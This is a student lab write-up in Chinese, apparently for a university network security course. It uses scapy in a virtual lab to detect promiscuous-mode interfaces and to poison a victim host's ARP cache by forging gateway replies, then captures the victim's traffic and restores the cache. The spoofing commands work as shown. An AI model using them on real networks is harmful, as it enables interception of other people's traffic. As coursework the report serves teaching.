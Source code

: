 网络监听实验

## 网络拓扑

![](./图片/拓扑图.png)

节点信息如下：

* 攻击者主机
  * 08:00:27:b9:73:f3/eth0
  * 172.16.111.128

* 受害者主机
  * 08:00:27:66:2d:77/eth0
  * 172.16.111.145
* 网关
  * 08:00:27:86:0f:d3/enp0s9
  * 172.16.111.1

## 实验准备

**安装scapy**

```bash
# 安装python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](./图片/安装scapy.png)

<br>

## 实验一：检测局域网中的异常终端

* 检测「混杂模式」是否开启

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](./图片/检测混杂模式.png)

* 攻击者主机监听受害者主机

```bash
# 在攻击者主机上开启scapy(非root用户)
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.145")
```

<img src="./图片/关闭混杂模式的监听结果.png" style="zoom:150%;" />

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:66:2d:77 brd ff:ff:ff:ff:ff:ff

# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.145")
```

<img src="./图片/开启混杂模式的监听结果.png" style="zoom:150%;" />

* 手动关闭「混杂模式」

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![](./图片/手动关闭混杂模式.png)

<br>

## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的`scapy`交互式终端完成

* 构造一个ARP请求

```bash
# 获取当前局域网的网关 MAC 地址:172.16.111.1
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:b9:73:f3
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:b9:73:f3
#      psrc= 172.16.111.128
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```

![](./图片/查看arp报文请求.png)

* 发送ARP广播请求

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

* 伪造网关的ARP响应包并发送

```bash
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.145
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.145", hwdst="08:00:27:b9:73:f3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
send(arpspoofed)
```

![](./图片/发送广播请求.png)

* 查看ARP缓存

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

![](./图片/查看arp缓存.png)

* 攻击者主机抓包

​	在攻击者主机使用`tcpdump -i eth0 -n -p`抓包，可以看到攻击者主机抓到了靶机数据![](./图片/抓包测试.png)

* 恢复正常网关ARP记录

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:86:0f:d3", pdst="172.16.111.145", hwdst="08:00:27:66:2d:77")
sendp(restorepkt1, count=100, inter=0.2)

## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![](./图片/恢复arp缓存记录.png)

<br>

## 遇到的问题

**遇到的问题1：**

在实验二中在攻击者主机构造好ARP请求并发送后并没有收到理想的受害者主机的答复

```bash
# 理想答复
# Begin emission:
# Finished sending 1 packets.
# Received 1 packets, got 1 answers, reamining 0 packets

# 收到的结果
# Begin emission:
# Finished sending 1 packets.
# Received 0 packets, got 0 answers, reamining 1 packets
```

解决办法：

参考畅课讨论区同学的经验分享[解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)发现有两种解决办法：

* 关闭除了当前局域网所属的内部网络之外的所有网卡
* scapy指定网卡发送数据包

我采取了第二种方法，发现该方法可行，解决了问题

![](./图片/scapy指定网卡发送数据包.png)

**遇到的问题2：**

在实验二中伪造网关发送ARP响应包之后在受害者主机查看ARP缓存，发现网关MAC地址并没有被替换

![](./图片/查看arp缓存MAC地址未替换成功.png)

解决办法：

参考[黄玮老师教学视频](https://www.bilibili.com/video/BV1CL41147vX/?p=37&vd_source=1cdb5e20bad2af25921f327621feabee)，将`sendp`修改成`send`，结果显示可行

![](./图片/查看arp缓存MAC地址成功替换.png)

查了一下`sendp`和`send`的区别，参考[Scapy的基本操作](https://blog.csdn.net/qq_45887590/article/details/114606451)文章得到的解释是

```
这两个函数的区别在于send()工作在第三层，而sendp()工作在第二层。
```

也就是说send()用来发送IP数据包，而sendp()则用来发送Ether数据包，因为构造的`arpspoofed`是arp响应包，而arp协议在IP层，推测可能需要使用`send`才能成功发送

## 参考资料

[解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)

[教学视频](https://www.bilibili.com/video/BV1CL41147vX/?p=37&vd_source=1cdb5e20bad2af25921f327621feabee)

[Scapy的基本操作](https://blog.csdn.net/qq_45887590/article/details/114606451)

[电子教材-实验四](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)